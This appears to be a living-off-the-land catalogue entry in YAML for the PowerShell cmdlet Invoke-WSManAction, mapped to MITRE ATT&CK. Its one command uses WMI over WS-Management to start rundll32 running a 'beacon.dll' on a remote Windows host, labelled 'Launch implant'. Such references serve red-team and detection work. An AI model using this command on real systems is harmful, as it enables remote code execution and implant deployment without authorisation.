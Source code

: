 ```yaml
---
Name: Invoke-WSManAction
Description: Invokes an action on the object that is specified by the Resource URI and by the selectors
Updated: 2023-07-01
Toolsets:
  - Builtin
Commands:
  - Command: 'Invoke-WSManAction -ComputerName W10.ad.bitsadmin.com -Action "Create" -ResourceURI wmicimv2/win32_process -ValueSet @{CommandLine=''C:\Windows\System32\rundll32.exe "C:\tmp\App Folder\beacon.dll",Start''}'
    Description: Execute binary
    Usecases:
      - Launch implant
    Function: Execute
    Comments:
      - 'PowerShell Module: `Microsoft.WSMan.Management`'
    MitreAttack:
      - T1047
      - T1059.001
Resources:
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```


